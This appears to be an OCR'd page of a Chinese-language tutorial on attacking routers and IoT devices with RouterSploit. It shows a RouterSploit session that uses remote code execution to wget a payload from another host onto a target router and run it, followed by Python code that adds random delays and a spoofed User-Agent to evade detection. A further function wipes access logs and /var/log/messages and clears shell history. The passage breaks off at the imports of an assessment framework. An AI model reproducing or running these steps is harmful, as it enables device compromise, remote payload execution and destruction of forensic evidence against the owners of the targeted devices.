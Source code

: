 # 3. 通过 RouterSploit 的 RCE 上传并执行 payload
rsf > use exploits/routers/target/exploit
rsf (Exploit) > set target 192.168.1.1
rsf (Exploit) > run "wget http://192.168.1.100/payload.elf -O /tmp/payload.elf"
rsf (Exploit) > run "chmod +x /tmp/payload.elf"
rsf (Exploit) > run "/tmp/payload.elf"
十四、高级防御规避技术
1. 时序攻击检测规避
python
import random
import time

class StealthExploit(HTTPClient):
    def stealth_request(self, method, path, **kwargs):
        # 添加随机延迟避免检测
        time.sleep(random.uniform(1.0, 3.0))
        
        # 使用常见的 User-Agent
        headers = kwargs.get('headers', {})
        headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        kwargs['headers'] = headers
        
        return self.http_request(method, path, **kwargs)
2. 日志清理
python
def clean_logs(self):
    # 尝试清理访问日志
    commands = [
        "echo '' > /var/log/httpd_access.log",
        "echo '' > /var/log/messages",
        "history -c"
    ]
    
    for cmd in commands:
        self.execute_command(cmd)
十五、企业级安全评估框架
1. 完整的 IoT 设备评估流程
python
#!/usr/bin/env python3
"""
企业级 IoT 设备安全评估框架
"""

import json
import time
from routersploit.core.exploit import exploits
